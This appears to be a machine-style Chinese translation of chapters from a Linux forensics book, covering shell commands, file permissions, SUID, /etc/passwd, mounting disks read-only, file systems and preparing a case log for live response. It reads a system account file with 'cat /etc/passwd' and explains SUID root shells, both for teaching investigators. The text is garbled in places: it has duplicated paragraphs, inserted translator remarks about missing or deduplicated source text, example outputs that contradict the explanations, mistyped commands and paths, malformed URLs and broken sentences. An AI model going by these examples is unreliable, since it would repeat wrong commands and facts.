

## 图 2.8 终端中的 Linux Bash Shell


理解 Unix • 第2章

## 所有的 Shell

与 Windows 命令提示符不同，shell 更强大、更好用。在 *nix 世界有许多支持的 shell：Bourne shell (sh)、Korn shell (ksh)、C Shell (csh)、Tom's C Shell (tc) 以及 Bourne Again Shell (bash)。Bash 是 Linux 的默认选择，但 HP-UX 机器通常配置为 ksh。如果你想知道处于哪种 shell，只需输入 echo $SHELL

```
ubuntu@~$ echo $SHELL
/bin/bash
ubuntu@~$
```

## 基本命令

这里是一些你应该熟悉的命令以及常用选项。注意命令选项和语法在不同的 *n 操作系统之间会有不同，如果不确定，请查看手册页（man pages）。

| Linux 命令 | 最的 Windows 等效命令（如果有） | 功能 |
|---|---|---|
| ls -l | dir | 列出当前目录下的文件。选项可以提供详细列表，并按反序排列，最新的文件排在最后。 |
| pwd | cd [无参数] | 打印当前目录名称。 |

| Linux 命令 | 等效命令（如果有） | 功能 |
|---|---|---|
| touch filename | 如果文件不存在则创建一个空文件。如果文件已存在，则更新文件的访问和修改时间戳。 |
| rm filename | del | 解除（删除）文件。覆盖文件内容并可选地删除。 |
| cd dirname | cd | 切换目录。注意在 *unix 中，目录名使用正斜线而非反斜线，例如 /tmp。 |
| hostname | net config workstation | 显示机器的主机名。 |
| ifconfig -a | ipconfig /all | 显示所有网络接口，并将输出通过到方便程序 less。 |
| cat filename | type | 将文件内容显示在屏幕上。 |
| less filename | 查看文本文件，可以使用空格和 b 键前后滚动输出。q 退出。 |
| more filename | 每次屏幕查看文本文件，使用空格键前进。在所有 *unix 系统上可用。 |
| head filename tail -f logfilename | Head 显示文件的前几行。Tail -f 用于跟踪增长中的文本文件或日志。 |
| history | 显示你之前执行过的命令。 |


# 第 2 章 • 理解 Unix

| Linux 命令 | 对应的命令（如果有） | 作用 |
|---|---|---|
| script scriptfile name | | 在指定的文件中创建你的命令行活动日志。对于记录你的活动以取证据非常有用！在输入你想要记录的最后一个命令后，输入 "exit"。 |
| strings script name / less | | 剥离所有控制字符，只显示可打印的字符串字符，用于查看命令脚本，或确切地说，查看任何二进制文件。 |
| date | | 显示当前日期，在 `script` 捕获的命令会话内部非常有用，可以提供粗略的时间戳。 |
| export PS1=$(USER)@${HOSTNAME}:\d:\t\w\$ | 提示符 | 通过特殊的 BASH 环境变量 PS1 将你的 BASH 命令提示符设置为包含你的用户名、主机名、当前日期、时间以及工作目录。详情请查看 `man bash`。 |
| man command name | help commandname commandname? | 手册（Manual pages）。RTFM（去读那本手册）。阅读那本（精良）手册。非常重要，Man 是在线命令参考手册的接口。与有用但可用性不稳定的 Windows 帮助不同，*nix 作者为几乎每个可用的命令行程序都详细编写了 man 页面。 |
| man -k keyword /less | | -k 选项允许你通过关键字搜索 man 页面，以便找到与你想操作相关的命令。这在 Web 和搜索引擎出现之前更为重要，但现在仍然有用。 |


# 理解 Unix • 第 23 章

| Linux 命令 | 最接近的 Windows 命令行（如果有） | 作用 |
|---|---|---|
| find | 资源管理器中的搜索功能，可能还有那只奇怪的动画狗？ | 令人不可或缺的文件查找/搜索命令。在 *nix 中你可能做的几乎任何操作可能都可以通过一个合适的长命令来实现。作为取证分析师，你会爱上这个命令的。 |
| grep pattern | | 显示文件中与给定搜索字符串模式匹配的行。另一个巨大且不可缺的工具。 |
| df . df | | 列出当前目录（. 代表当前目录）的磁盘空间。如果没有 `. df`，则列出所有挂载文件系统的磁盘使用情况。单位以块为单位，取决于磁盘如何格式化，大小可能为 1kB。 |
| du -sk du -k | | 显示当前目录及其所有子目录以 KB 为单位磁盘使用摘要。 |
| mount | | 列出已挂载的文件系统。稍后将详细介绍该概念。不急的人看 `man`。 |
| dd | | 磁盘转储器（Disk dumper）。正如你预期的，这对于取证社区非常重要！这是一个原生的 *nix 命令，可以导出原始磁盘设备，包括所有空闲区域（slack space）。 |
| sudo | runas | Sudo 是任何需要 root（管理员）超级用户权限的命令前的前缀。 |
| mkdir directory | md | 创建目录。 |

# 第 2 章 • 理解 Unix

`sudo mount -t auto /dev/device /media/mountpoint`

Windows 在启动时插入 USB 设备时会自动尝试此操作。

要挂载文件系统，你需要 root 权限，因此在命令前加上了 `sudo`。这个示例显示将磁盘挂载到一个空目录，并自动检测其文件系统类型。

`sudo umount /media/mountpoint`

右键点击 Ej 或 安全地删除硬件图标

卸载文件系统。例如，从系统中移除 USB 闪盘或外部硬盘。

`chmod file chown file chgrp file`

`attrib`

更改文件的权限、文件所有权和组所有权。

你应该加入 *nix 词汇表的其他需要查阅的命令包括：`top`（显示按 CPU 利用率排序的运行程序）、`ps -ef`（显示所有运行进程）、`netstat -an`（显示所有网络连接）、`last`（显示登录用户）、`who`（显示当前登录用户）、`uname -a`, `cp`, `rmdir`, `touch`, `wc -l`, `passwd`, `su -`, `gunzip`, `gzip`, `tar`, `zcat`, `env`, `ps`, `cut`, `uniq`, `alias`, `ssh`, `scp`, `rsync`, `fsck` 以及为了在这些操作中留有一点余地的 `cowsay`。

```
ubuntu@ubuntu:~$ cowsay "Cus it's the bomb!"
```

```
< Cus it' da bomb! >
^ ^^
\ (oo)
  (  _ )/\
  ||-----||
  ||     |
```

当然，在处理可能受损的机器上工作时，信任该机器上安装的二进制文件的输出是愚蠢的。准备一个包含这些命令静态链接版本的 CD，并运行这些二进制文件而不是运行（可能作为 rootkit 的被修改过的）已安装版本，始终是一个明智之举。

最后，现代 *nix 的两个 Windows 可能会忽略的命令行功能是：文件名补全和命令补全。试一下！开始输入文件名并按 TAB 键。如果没有发生什么，再次按一次。当你看到那个长文件名被自动补全，或者立即出现一个可能的补全列表时，你会奇怪自己以前没有它的情况下是怎么活过来的。顺便提一下，Windows cmd.exe 有文件名补全，但你可能需要调整注册表项来启用它。此外，通常按上方向键可以获取之前的命令历史，这可以节省大量的重复输入。Windows 也有类似的功能。

## Linux 安全模型亮点

Linux 和 *nix 在安全方面比 Windows 严格得多。安全性渗透在 *nix 操作系统的设计中，而不是像 Windows 那样有时只是事后考虑。例如，在 *nix 世界中，不存在这种……（此处原文似乎不完整，根据上下文翻译至此）。

上述，我们看到长格式的 shadow 和 passwd 文件。左侧的权限显示所有者、组和其他人可以做什么。r 是读，w 是写，x 是执行。在 *nix 中，权限可以用数字表示，例如 `-rw-r--` 可以表示为 644。对于 root 用户，或者在命令前加上 `sudo`。


# 理解 Unix：第 27 章

```bash
cat: foo: Permission denied
ubuntu@ubuntu:~$ chmod u+r foo # 添加用户/所有者权限
ubuntu@ubuntu:~$ ls -l foo
-r--r--r-- 1 ubuntu ubuntu 0 2008-04-14 20:25 0
ubuntu@ubuntu:~$ cat foo # 现在我们可以再次读取了，但它是一个空文件
ubuntu@ubuntu:~$
```

除了我们在示例中探索的这些读、写、执行权限外，*nix 对文件还具有“设置用户 ID (set UID)”和“设置组 ID (set GID)”权限的概念。在 Windows 的新建文件系统 (NTFS) 或文件分配表 (FAT) 中，没有类似的文件属性。这些可执行文件会将有效用户 ID 或组 ID 更改为程序执行时的身份。这带来的安全影响可能是严重的，它们在取证分析中非常重要，因为这些权限允许可执行文件以另一个用户的身份运行，无论是谁运行该程序。例如，许多需要硬件特权访问的命令被设置为用户 ID 为 root，这在权限的“用户/所有者”位置用“s”标出：

```bash
ubuntu@ubuntu:~$ ls -l /bin/ping
-rwxr-xr-x 1 root root 30856 2007-07-06 02:40 /bin/ping
```

当任何用户运行 `/bin/ping` 时，它都会以超级用户 (root) 的身份运行。

你不希望在系统中发现一个设置了用户 ID (SUID) 为 root 的 `/bin/bash` 副本或任何其他 shell。其影响是显而易见的。任何执行此类 shell 用户都可能变成 root。现代 shell 内置了防止这种经典攻击的保护，但所有 SUID root 的 shell 副本对取证调查员来说都应该是警信号。

这种类型的文件权限非常重要。文件权限根据以下内容定义：

- 所有者权限 (u，用户/所有者可以读取、写入或执行此文件吗？)
- 组权限 (g，组可以读取、写入或执行吗？)
- 全员权限 (o，系统上的其他人可以读取、写入或执行吗？)
- SUID/SGID 权限 (s，当执行它时，我们会更改有效用户 ID 或组 ID 吗？)

读和写权限非常直观。另一方面，执行权限在 Windows 世界并不真实存在。*nix 中，如果文件要被解释为 shell 脚本或可执行程序，则必须为用户所属的角色设置执行位。


例如，基础的“ls” 命令是一个可执行的二进制格式文件，所有人都可以执行：

```bash
ubuntu@ubuntu:$ ls
/bin/ls
ubuntu@ubuntu:~$ /bin/ls
/bin/ls: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux
2.6.8, dynamically linked (uses shared libs), stripped
ubuntu@ubuntu:~$ ls -l /bin/ls
-rwxrxr-x 1 root 78004 2007-09-29 12:51 /bin/ls
```

对于目录，执行位的含义略有不同。如果你尝试列出一个没有为你你所属的角色设置执行权限的目录，将会被拒绝查看目录列表：
`etc/passwd`

在对文件权限进行了简要介绍后，我们可以回到用户身份验证。`/etc/passwd` 看起来如下：这是一个冒号分隔的文本文件，格式为：
`用户名:密码字段:UID:GID 名称:家目录:默认 shell。`

```bash
ubuntu@ubuntu:$ cat /etc/passwd | head -14
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
```

我们看到的第二个字段 `x` 是一个密码字段。当使用 shadow 文件时（所有现代 *nix 都是如此），`x` 代表一个被隐藏的密码条目，并告诉 Linux 在 shadow 文件中查找密码哈希值。

本地身份验证并不是 Linux 世界的唯一方法。Linux 通过可插认证模块 (PAM) 支持多种眼花缭乱的方法，包括 NIS、AFS、Kerberos 等。你可以配置 PAM 针对这些源进行身份验证。例如，`/etc` 是一个包含所有配置文件的目录。你会在 LiveCD 上看不到这个文件，但在安装的 Ubuntu 版本中它通常存在。`/etc` 的内容在发行版之间有所不同。

- 我们看到的第二个字段 `x` 是一个密码字段。
- `/etc` 是一个包含所有配置文件的目录。
- `/home` 是用户目录所在地。
- `/lib` 是启动期间所需的共享库 (so 文件) 所在地。
- `/var` 是许多日志文件所在地。
- `/opt` 是你可能会找到未包含在默认安装中的可选软件和插件的地方。
- `/tmp` 用于临时文件，类似于 Windows 中的 `%TEMP%`。
- `/boot` 包含启动所需的内容，包括 `/boot/grub.conf`，它类似于 boot。
- `/dev` 是另一个奇特的系统，系统上的实际设备在该处以层级形式表示。
- `/proc` 是一个特殊的地方，在书中存在。
- `/sbin` 是只有 root 运行命令的地方。
- `/usr/bin` 和 `/usr/local/bin` 同样可以找到命令。
- `/cdrom` 是 CD-ROM 的挂载点。
- `/mnt` 和 `/media` 是挂载点所在地。
- `/root` 是 root 所在地。
- `/sys` 是系统信息所在地。


# 理解 Unix • 第2章

第一块磁盘。`/dev/sda` 是整个磁盘的设备。它们被用于挂载文件系统。稍后会详细介绍。

## 挂载点（Mount points）：它们到底是什么？

我们已经多次提到文件系统和挂载。挂载点简单来说就是在文件层次结构中某处的一个空目录，通过它来访问内部磁盘分区、闪存器或外部硬盘。在 Windows 术语中，“c:\”可以被视为启动时识别的驱动器第一个分区的挂载点。虽然 Windows 驱动器的 ARC 名称是像 `multi(X):disk(Y)disk(Z)partition` 这种晦涩且糟糕的内容，但 Windows 好地将该硬件挂载到一个友好的挂载点 `c:\`，在命令行和 Windows 资源管理器中看起来更漂亮。同样，Windows 喜欢将第二个主盘挂载到 `d:\`，而不是用一长串难看的括号和数字来引用 CD-ROM 驱动器。*Unix 避免了驱动器字母，允许你灵活地将磁盘挂载到你喜欢的几乎任何目录名称下。这允许 `/var` 如果你喜欢的话拥有它自己的文件系统，如果日志填满了磁盘，也不会卡死你的系统。你可以专门分配一个分区给 `/home`，这样 Joe User 就不会因为从 bittor 下载大量电影而卡死系统。相反，他会填满 `/home` 挂载所在的磁盘。用户仍然会讨厌他，但至少运行守护进程（相当于 Windows 的“服务”）能够向它们的日志写入内容，电子邮件仍然可以送达。

Linux 将此磁盘设备到文件系统的目录名称的映射信息存储在所谓的“挂载表”（mount table）中。`mount` 命令允许你列出它，并且你可以手动控制 Linux 挂载了哪些设备：

```
ubuntu@ubuntu:~$ mount
proc /proc type proc (rw)
sysfs / /sys type sysfs (rw)
tmpfs / /lib/modules/2.6.22-14-generic/volatile type tmpfs (rw,mode=0755)
tmpfs / /lib/modules/2.6.22-14-generic/volatile type tmpfs (rw,mode=0755)
varrun /var/run type tmpfs (rw,noexec,nosuid,nodev,mode=0755)
varlock /var/lock type tmpfs (rw,noexec,nosuid,nodev,mode=1777)
udev /dev type tmpfs (rw,mode=0755)
devsm /dev/shm type tmpfs (rw)
devpts /dev/pts type devpts (rw,gid=5,mode=620)
tmpfs /tmp type tmpfs (rw,nosuid,nodedev)
```

挂载表告诉你可以已挂载的设备、它被挂载的挂载点、它被解释的文件系统类型以及任何挂载选项，例如 `rw`（以读写权限挂载）。


你可以以“ro”（只读）模式挂载磁盘；这可能在进行法医调查时你可能需要的（尽管对于确保连接了并行 ATA 磁盘的写线已物理断开，这种保证是无可比拟的）。详情请参阅挂载 页面，我们将通过一些示例来让你大胃口。

LiveCD 的一个优点是，你可以用它在 Windows 运行异常或在恶意软件感染时无法信任它时查看 Windows 磁盘事件。这样做的方法是挂载你的内部硬盘。在 *nix 中，由于默认安装了 `mount` 和 `finger` 等工具，你只需要学会使用这些东西。

要以只读模式挂载本地驱动器，你首先需要创建一个挂载点（空目录），然后我们尝试挂载它：

```
ubuntu@ubuntu~$ ls /dev/sd*
/dev/sda /dev/sda
```

```
ubuntu@ubuntu~$ mkdir /mnt/mywindrive
mdir: cannot create directory '/mnt/mywindrive': Permission denied
ubuntu@ubuntu~$ # 噢！凡人没有 /mnt 的写权限
ubuntu@ubuntu~$ sudo mkdir /mnt/mywindrive
```

```
ubuntu@ubuntu~$ ls /mnt
mywindrive
```

```
ubuntu@ubuntu~$ sudo mount -o ro -t auto /dev/sda1 /mnt/mywindrive
ubuntu@ubuntu~$ mount
proc on /proc type sysfs (rw)
sysfs on /sys type sysfs (rw)
tmpfs on /lib/modules/2.62.22-14-generic/volatile type tmpfs (rw,mode=0755)
tmpfs on /lib/modules/2.62.22-14-generic-volatile type tmpfs (rw,mode=0755)
varrun on /var/run type tmpfs (rw,noexec,nosuid,mode=0755)
varlock on /var/lock type tmpfs (rw,noexec,nosuid,mode=0777)
udev on /dev type tmpfs (rw,mode=0755)
devshm on /dev/shm type tmpfs (rw)
devpts on /dev/pts type devpts (rw,gid=5,mode=620)
tmpfs on /tmp type tmpfs (rw,nosuid,nodev)
/dev/sda1 /mnt/mywindrive type fuseblk(ro,nosuid,nodev,allow_other,blockSize=4096)
```

极有可能，如果你有一个相对“正常”的 Windows PC，且没有进行创意分区或安装到非默认磁盘，你的 Windows 分区可能名为 `/dev/sda`。在我们的示例中，我们列出了启动时 Linux 填充到 `/dev/sd*` 的所有内容以确保。不过，如果你看到 `/dev/sda1` 和 `/dev/sda2`，你可能有一台包含用于恢复的“服务分区” `/dev/sda1` 的 OEM 电脑。如果你正在使用不同的 Linux 且没有任何以 `sd` 开头的设备，那么 `/dev/sda` 可能是你找到内部硬盘第一个分区的地方。顺便说一下，除了 Linux 之外，硬件设备的命名完全不同，所以当你遇到它们时，你得靠手指去 Google 搜索相关信息。接下来，我们在 `/mnt` 中创建了一个包含目录的挂载点。在 `mount` 命令本身中，为了安全起见指定了只读选项，并允许挂载确定你分区的文件系统类型。“mount”命令的最后一行揭示了 `/dev/sda1 /mnt/mywindrive type fuseblk(ro,nosuid,nodev,allow_other,blockSize=4096)`。

在所有情况下，如果你有一个相对“正常”的 Windows PC，且没有进行创意分区或安装到非默认磁盘，你的 Windows 分区可能名为 `/dev/sda`。在我们的示例中，我们列出了启动时 Linux 填充到 `/dev/sd*` 的所有内容以确保。不过，如果你看到 `/dev/sda1` 和 `/dev/sda2`，你可能有一台包含用于恢复的“服务分区” `/dev/sda1` 的 OEM 电脑。如果你正在使用不同的 Linux 且没有任何以 `sd` 开头的设备，那么 `/dev/sda` 可能是你找到内部硬盘第一个分区的地方。顺便说一下，除了 Linux 之外，硬件设备的命名完全不同，所以当你遇到它们时，你得靠手指去 Google 搜索相关信息。接下来，我们在 `/mnt` 中创建了一个包含目录的挂载点。在 `mount` 命令本身中，为了安全起见指定了只读选项，并允许挂载确定你分区的文件系统类型。“mount”命令的最后一行揭示了 `/dev/sda /mnt/mywindrive type fuseblk(ro,nosuid,nodev,allow_other,blockSize=4096)`。

*(注：此处由于原文中存在部分重复，译文已根据“不要重复输出原文”的原则进行了去重处理，保持逻辑连贯)*

在所有情况下，如果你有一个相对“正常”的 Windows PC，且没有进行创意分区或安装到非默认磁盘，你的 Windows 分区可能名为 `/dev/sda`。

文件系统

```
AUTOEXEC.BAT      file.sys
boot.ini          Program Files
CONFIG.SYS        System Volume
drivers.dll       Documents and Settings
ntldr             WINDOWS
```

在 Windows 中，文件系统领域的生活非常简单。你只有两个磁盘文件系统需要担心（FAT 和 NTFS），并且每个系统都有几次迭代。FAT 这一派（你现在似乎只在移动驱动器上找到），FAT32 统治着根目录。我们怀念过去 FAT16 和它的 2-4GB 最大分区大小。FAT32 为我们提供了更大的卷空间，高达 2-8TB，但被 4GB 的文件大小限制了手肘。此外，所有的 FAT 变体都不支持文件权限概念，这使得它们对于企业来说不是一个选择。

NTFS 及其自 Windows NT 3.1 时代来的五个版本解决了权限问题，因为它对文件访问控制列表（ACL）有非常灵活的支持。NTFS 还为文件系统增加了日志功能，这使得 NTFS 文件系统对于电源中断或在未正常弹出的情况下拔掉外部硬盘导致的损坏更加健壮。因此，我们不需要像过去 Windows 95/98 那样经常运行 `scandsk` 或 `chkdsk`。对法医调查人员更有趣的是NTFS 包含了备用数据流（ADS），坏人可以在那里隐藏躲避敏锐眼睛的数据。

在 Linux 中，文件系统方面的情况变得更加复杂，因为它支持许多文件系统。Linux 支持的文件系统列表包括 FAT16、几种变体的 FAT32 以及几种变体的 NTFS。Linux 的原生文件系统是 ext2。


# 理解 Unix • 第2章

它和 FAT 一样，是一种非日志文件系统，因此如果你是 ext2 用户，`fsck` 就会成为你生活中的常态。与 FAT 不同，ext2 熟悉所有的文件权限和安全性。ext3 是一个密切相关的文件系统，它通过日志支持扩展了 ext2。在 ext3 集成到内核之前，ReiserFS 曾是一种受青的日志文件系统（在此，作者 Hans Reiser 在 2006 年成为刑事调查的重点对象之前）。

在庞大的 *nix* 世界中，文件系统的范围极其广泛。UFS、ZFS、JFS、HFS、XFS、ODS-5……列表列不完。虽然这些细节可供搜索，但对于取证分析任务，每个文件系统都带有特定的实现细节，你可能需要研究这些细节，作为你下一次调查中不常见的文件系统部分。

## Ext2/Ext3

在处理 Linux 机器时，会经常发现基于 Ext 的文件系统。Ext2 实现的细节记录在第二个扩展文件系统的设计与实现中，网址为：http://e2sprogs.sourceforge.org/net/ext2intro.html。考虑到取证分析对所分析底层文件系统复杂性的敏感性（例如 inode 数据结构的组织方式、数据在磁盘上物理布局产生的影响，以及“被删除”的文件可能简单地删除了链接，而所有数据仍然保留在空闲空间中），我鼓励你阅读这一资源。

Ext3 是 Ext2 的扩展，它引入了日志功能，以在发生故障时免除我们进行那些极其漫长的文件系统检查（通过你手边的纸质书籍和 man 页面中的 `fsck` 程序实现）。Ext3 对 Ext2 的日志扩展记录在这一份白皮书中：http://e2sprogs.sourceforge.org/net/journal-design.pdf

根据你必须分析的 *nix 盒子，你或工具首先需要找到的事情之一就是系统上使用的文件系统类型。记住朋友，`mount` 命令是显示运行运行系统上正在使用的文件系统的手段，并用于以只读方式探测磁盘。

幸运的是，有免费的工具可以理解常见的 *nix 文件系统的复杂性，并能帮助解释和恢复在这些文件格式中无法直观看到的删除或损坏数据。其中一些工具包括：

- [文件系统列表](https://en.wikipedia.org/wiki/List_of_file_systems) 的内容多到让你头晕。
- [Sleuthkit](www.sleuthkit.org/sleuthkit/)
- [Linux Recovery](www.diskinternals.com/linux-recovery/)
- [R-Studio](www.data-recovery-software.net/)

此外，以下文件切片器（file slicers）虽然与文件系统无关，但同样值得了解：

- [Foremost](http://foremost.sourceforge.net/)
- [Scalpel](www.digitalforensicsolutions.com/Scalpel/)

## 总结

在本章中，你已经快速上手，并根据你之前的 Windows 经验对 Linux 进行了一次初步的镍级（也许是美分级）之旅。这次之旅也为后续章节奠定了基础，我们将深入探讨对 Linux 系统进行和使用 Linux 系统进行取证分析的细节。我们强调，尽管 Linux 不是 UNIX*，但它和所有类 Unix（统称为 *nix*）朋友共享着共同的设计哲学，一旦你进入 shell 提示符并开始工作，就会感觉很相似。我们向你介绍了一些在之前的 Windows 计算经验中可能没有过的概念，以便为你本书的其余部分提供学习基础，最重要的是，为你未来的 *nix 取证工作奠定基础。最后，我们含蓄地暗示，你将必须养成在你不熟悉的平台和特定细节上搜索信息的思维，因为即使是你最熟悉的 *nix 也有快速变化和演变的倾向。*nix 的世界太大了，任何一个人都不可能成为所有这些领域的专家！

在此基础上，我们现在可以将注意力转向工作，并对活的 *nix 系统进行响应。

# 第3章


本章解决方案：

- 准备目标介质
- 格式化驱动器
- 收集易失信息
- 获取镜像

总结

## 引言

一旦到达客户现场，与客户坐下来并了解发生了什么是关重要的。请理解，这段对话提供的信息可能与你最初从任何之前的分诊电话收到的信息不同。我不确定这是因为对情况全广度和深度缺乏理解，还是因为事件的压力导致细节被遗漏，但根据我的经验，这是一个非常可靠的准则。一旦你到达现场并物理地感受范围内的网络和系统，要预期事情会发生变化。

我试图避免的是我所说的“散弹式”（shotgun）方法。太多的调查员只是简单地出现在客户现场，然后到处开始启动主机，我想如果你想为自己制造更多工作，这也许没问题。也许他们认为通过撒一个非常大的网，他们一定能获得任何可能的关键数据，而不需要再次返回客户现场。虽然这种方法在技术上可行，但它太耗费资源了，而且会产生大量的错误数据。


## 第 3 章 · 现场响应：数据收集

`mkdir /mnt/<disk>` 命令将创建一个挂载点。然后驱动器就可以挂载到刚刚创建的挂载点。这有时会很复杂，但通用串行总线（USB）驱动器会在 /dev（设备）中以 sdb1 或 uba1 出现，顺便提一下，由于是 USB 1.1，性能并不理想。如果驱动不可用，静态操作系统可能是最佳选择。在那些配备了当前 USB 驱动程序的发行版中，会自动识别外部设备。

`lsusb` 命令将显示所有连接的 USB 设备。哪个是新连接的设备非常明显，特别是只连接了一个 USB 设备时。此外，“dmesg -i “SCSI device”将显示具有小型磁盘接口（SCSI）区别的可用设备（即使不是 SCSI 设备）。最简单的命令是 `cat /proc/partitions`。它将向你显示连接到系统的分区（包括新连接的设备），而没有大量的错误信息。正如我们在引言中所说，在 Unix 中实现同一目标总有多种方法。

一旦识别了设备，找到所有前缀为 `-ls /dev/sd*`（a 或 b）的设备。设备标识符后面可能还会带有一个 `#` 号。所说的数字可能是“1”，除非插入了多个 USB 驱动器，在这种情况下，数字可能是 2、3、4 等，取决于连接到机器的设备数量。一旦驱动器挂载，通过尝试创建一个目录来进行简短测试，或使用 `touch` 命令创建一个空文件。一旦测试成功，即说明目标媒体已正确挂载，可以进行数据采集。

## 格式化驱动器

### 使用 ext 文件系统格式化磁盘

如果你打算使用 Windows 执行事后分析的任何部分（例如 EnCase、FTK2 或 Pro Discover），我强烈建议你下载 IFS Drives.¹ 这个开源实用程序将允许你的 Windows 机器识别并使用“ext”文件系统。

在你的 Linux 机器上，运行 `mkfs /dev/<yourdevice>-L <customer_hostname>` 命令将开始格式化过程。这将创建一个 ext2 文件系统。如果你想创建一个 ext3 文件系统，请使用 `mkfs.ext3`。

> ¹ www.fs-driver.org/

一旦创建了文件系统且所有索引节点（inodes）都已写入，使用 `mount` 命令查看设备。你应该能看到设备名称 `/dev/<yourdevice>` 后面跟着 `type ext2 (nu)` 字样。执行之前描述的相同测试，以确保你可以向外部驱动器写入数据。

一旦完成外部设备的挂载和格式化，调查人员就可以准备进行 Linux 采集。

## 收集易失性信息

### 准备案件日志

在书籍《Hacking Exposed: Computer Forensics Secrets & Solutions》（Davis, Philip, & Cowen 2005）一书中，作者指出：“证据收集是任何事件调查中最重要的部分，如果证据将进入法庭，那么它的重要性更甚。无论你的分析有多出色、程序有多详尽、监管链有多严密，如果你无法证明你是以符合取证科学的方式收集证据的，你所有的努力将立不住脚并付诸东流。”

在收集程序受到质疑（在某些时刻不可避免避免）的情况下，对于取证调查人员来说，第一也是最有用的事情就是准备一份案件日志。在案件日志中记录事件概况（Incident Profile）。事件概况应包含以下八项：

- 客户名称。
- 如何检测到事件？
- 客户认为发生了什么？
- 客户认为事件发生在什么时间？
- 谁或什么报告了事件？
- 涉及哪些硬件或软件？
- 客户联系人是谁？
- 受影响系统的关键性程度如何？

NIST SP 800-61 指出：“事件响应方法论通常强调准备——不仅要建立事件响应能力使组织准备好应对事件，还要通过确保系统、网络和应用程序足够安全来防止事件发生。”（Grance, T., Kent, K., & Kim, B. 2004年1月）。

此时，客户不可避免地担心调查的影响、可能的媒体泄露以及违反监管合规的风险。因此，调查人员记住不要对可能发生或未发生的事情发表任何意见是非常重要的。效法乔·周五（Joe Friday）的足迹，坚持事实！

根据我的经验，客户急切渴望答案，在焦急中，他们有时为了尽快向高级管理层提供某些信息而会仓促地下结论。小心不要受影响而提供误导性信息。作为取证分析师，你的工作是收集客户看到的取证信息，对其进行记录，并进入调查的下一个阶段。不要做承诺，但要采取措施安抚客户，让他们知道你将尽所能提供帮助。

在案件日志中，记录以下步骤：

1. 谁在执行取证收集？
2. 工具和命令的历史？
3. 工具和命令的输出？
4. 操作的日期和时间

我还会下载并安装 John Douglas 的一个很棒工具 Case Notes。它是获取结果的一种整洁简便的方法。使用该工具的另一个优点是它会自动为你的条目加上时间戳。这有助于回忆你做了什么。它还有一个加密功能，可以密码保护你的信息。

尽管我们非常小心，但很多可能性超出了范围。现在的限制是，如果你是一个企业安全官，并且知道你的公司只有几个版本的 Unix 以及几个内核版本，那么对你来说构建一些工具磁盘是有意义的。

## 注意

好吧……在计算机取证领域里，我听过很多关于创建工具磁盘的讨论，但从未真正见过有人这样做过。没有白皮书，没有博客，没有邮件列表，什么都没有。所以我决定自己尝试看看能做出什么。我明白了如何修改文件并使用 `-gcc` 静态选项，并将 `LD_LIBRARY_PATH` 指向磁盘上的库，这比没有要好，但问题在于：这些静态二进制文件只适用于特定的 Linux 发行版、该发行版的特定版本以及特定的内核版本。

所以，让我们花时间为 Ubuntu 7.10、内核 2.6.22-14 构建一套静态工具。该磁盘将用于从另一台 Ubuntu 7.10 机器收集易失数据，并使用内核 2.6.22-14。既然如此，你实际上需要拥有每个操作系统的精确版本、所有可能的内核版本，在某些专有硬件（如太阳系统 SPARC、AIX Power PC 或 HP-UX）的情况下，才能有效地使用一组静态链接工具。

一旦经过验证并确定未被篡改，可以使用 root 用户挂载光盘或 USB 驱动器。现在，切换到可信工具目录（在此情况下为 `/mnt/<mntname>`），就可以使用可信的二进制文件了。


在案件日志中，创建一个标题为“易失信息”（Volatile Information）的条目。该条目应包含包含以下内容的配置文件：

* 操作系统类型和版本
* 系统安装日期
* 注册所有
* 系统目录
* 物理内存总量
* 已安装的物理硬件及位置
* 已安装的软件应用程序

一旦获取了系统配置信息，使用 `script` 命令让系统捕获输入输出历史。此命令将开始记录所有进入标准输入 (stdin) 和来自标准输出 (stdout) 的内容，并将其导出当前工作目录下名为“typescript”的美国信息交换代码（ASCII）文本文件中。该文件将帮助调查人员回想他们正在做什么以及结果如何。可以通过定期执行或在每次执行不同命令时执行 `date` 命令，从而在整个文件中使用时间戳。按下 Ctrl-D 可停止记录过程。

易失性信息仅存在于系统中，直到系统重启为止。一旦系统由于任何原因或以任何方式关闭，事件发生时存在的易失性信息就会消失。从历史上看，第一响应人员接受过的训练，即直接拔掉需要进行进一步分析的嫌疑系统的电源线。

